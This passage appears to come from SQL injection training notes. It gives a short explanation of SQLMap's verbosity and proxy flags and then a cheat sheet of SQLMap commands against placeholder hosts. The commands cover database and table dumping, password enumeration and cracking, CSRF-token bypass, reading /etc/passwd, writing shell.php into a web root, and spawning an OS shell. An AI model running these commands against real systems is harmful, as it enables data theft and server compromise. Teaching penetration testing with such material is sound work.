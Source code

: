 Another useful flag is the `-v` option, which raises the verbosity level of the console output:

```bash
sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch
```

`-v [0-6] (default 1)`

## **Using Proxy**

Finally, we can utilize the `--proxy` option to redirect the whole traffic through a (MiTM) proxy (e.g., `Burp`). This will route all SQLMap traffic through `Burp`, so that we can later manually investigate all requests, repeat them, and utilize all features of `Burp` with these requests:

---

# Cheat Sheet

| Command | Description |
| --- | --- |
| sqlmap -h | View the basic help menu |
| sqlmap -hh | View the advanced help menu |
| sqlmap -u "<http://www.example.com/vuln.php?id=1>" --batch | Run SQLMap without asking for user input |
| sqlmap '<http://www.example.com/>' --data 'uid=1&name=test' | SQLMap with POST request |
| sqlmap '<http://www.example.com/>' --data 'uid=1*&name=test' | POST request specifying an injection point with an asterisk |
| sqlmap -r req.txt | Passing an HTTP request file to SQLMap |
| sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c' | Specifying a cookie header |
| sqlmap -u www.target.com --data='id=1' --method PUT | Specifying a PUT request |
| sqlmap -u "<http://www.target.com/vuln.php?id=1>" --batch -t /tmp/traffic.txt | Store traffic to an output file |
| sqlmap -u "<http://www.target.com/vuln.php?id=1>" -v 6 --batch | Specify verbosity level |
| sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -" | Specifying a prefix or suffix |
| sqlmap -u www.example.com/?id=1 -v 3 --level=5 | Specifying the level and risk |
| sqlmap -u "<http://www.example.com/?id=1>" --banner --current-user --current-db --is-dba | Basic DB enumeration |
| sqlmap -u "<http://www.example.com/?id=1>" --tables -D testdb | Table enumeration |
| sqlmap -u "<http://www.example.com/?id=1>" --dump -T users -D testdb -C name,surname | Table/row enumeration |
| sqlmap -u "<http://www.example.com/?id=1>" --dump -T users -D testdb --where="name LIKE 'f%'" | Conditional enumeration |
| sqlmap -u "<http://www.example.com/?id=1>" --schema | Database schema enumeration |
| sqlmap -u "<http://www.example.com/?id=1>" --search -T user | Searching for data |
| sqlmap -u "<http://www.example.com/?id=1>" --passwords --batch | Password enumeration and cracking |
| sqlmap -u "<http://www.example.com/>" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token" | Anti-CSRF token bypass |
| sqlmap --list-tampers | List all tamper scripts |
| sqlmap -u "<http://www.example.com/case1.php?id=1>" --is-dba | Check for DBA privileges |
| sqlmap -u "<http://www.example.com/?id=1>" --file-read "/etc/passwd" | Reading a local file |
| sqlmap -u "<http://www.example.com/?id=1>" --file-write "shell.php" --file-dest "/var/www/html/shell.php" | Writing a file |
| sqlmap -u "<http://www.example.com/?id=1>" --os-shell | Spawning an OS shell |
